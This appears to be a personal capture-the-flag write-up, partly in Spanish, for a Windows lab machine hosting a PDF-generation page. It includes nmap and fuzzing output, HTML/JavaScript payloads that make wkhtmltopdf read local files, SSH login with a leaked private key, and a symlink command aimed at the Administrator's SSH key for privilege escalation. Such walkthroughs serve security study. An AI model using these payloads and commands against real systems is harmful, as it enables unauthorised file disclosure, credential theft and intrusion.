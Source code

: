 #Pwned! 
```IP
192.168.162.177
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.162.177 -vvv -p- -oN enum/full
```
The output being:
```
PORT   STATE SERVICE REASON          VERSION
22/tcp open  ssh     syn-ack ttl 125 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:40:e2:ef:21:ea:c1:77:b6:14:a3:f7:04:59:45:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcjA6Du6Xclk6bj2jRxFnRpmqAaGYZBeR4bZ+ZlpEc3HQxgUVtevQcEwV/GkD1uHnkavTJLsV8xf0SxHOxvjlCTHVxCApToP7QQkXH+wNw9kMz8xhzI0fVxvTTWGcOskfxgTfw7AcvYsXmKbJnUwZRaNdr5GtdJqO9jW1WprImYTY7ZSxzfxomZiQj87g21nbY/QSPfeJXbmacl9U52B9KB6StxVCGrS0hL3PIfDbQvGYiDqfH1/0UrE8NsdC3cmf2yMHwrpUXiHv6aMwpOP4WHhsBZgqotqaj5clEq051IylC5RcRGVmPqG5m7Sb1F91L43RLVfp5gSDX/K097bOL
|   256 f8:fb:e3:c6:16:3a:e2:62:d0:e2:ae:d4:f2:9e:6f:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEsNFRln5wL+8mm70Jhj1dYrLiOfcB1bg1sJRbZu84TZhAuaZuab6L3L77D1Iz/o2guD9TyvRvcU3nRIxdvIUxw=
|   256 94:5e:97:ad:f9:0f:81:b6:6b:3b:bd:98:43:c0:0d:6a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPGpJEAiGfo+odXRYF/qTK3JeKYerp7y7Qn6wVd4pByr
80/tcp open  http    syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: WebPage to PDF

```

## Nmap UDP


# Enumeration

## HTTP
Fuzz
```
.htaccess               [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
.htpasswd               [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 38ms]
Logs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 28ms]
aux                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 32ms]
cgi-bin/                [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 35ms]
com2                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
com1                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
com4                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 32ms]
com3                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
con                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 27ms]
licenses                [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 33ms]
logs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 31ms]
lpt1                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
lpt2                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 29ms]
nul                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 29ms]
pdfs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 30ms]
phpmyadmin              [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 38ms]
prn                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
server-status           [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 31ms]
server-info             [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 31ms]
webalizer               [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 46ms]
```
In pdfs we find a private key
https://medium.com/@parab500/part-1-uncovering-the-vulnerability-how-attackers-can-exploit-ssrf-via-pdf-generation-bf91a42b8e67
https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536
Analyzing pdfs 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022104848.png?raw=true)
we confirm the version of wkhtmltopdf is 0.12.3
No parece posible extraer información creando pdfs a partir de html malicioso
```
<!DOCTYPE html>
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

<body>

<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///Windows/System32/Drivers/etc/hosts");
x.send();
</script>

</body></html>
```
hacktricks payload working
```
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022112313.png?raw=true)

in fact with the user name p4yl0ad in the webpage and the id_rsa leaked we can ssh into the machine
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022115219.png?raw=true)

# PrivEsc

## Manual
https://github.com/googleprojectzero/symboliclink-testing-tools
Por alguna razón no funciona lo que a todo dios le funciona
```
.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\Users\Administrator\.ssh\id_rsa"
```
## Automated

### Peass
C:\Users\p4yl0ad\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

### Mimikatz


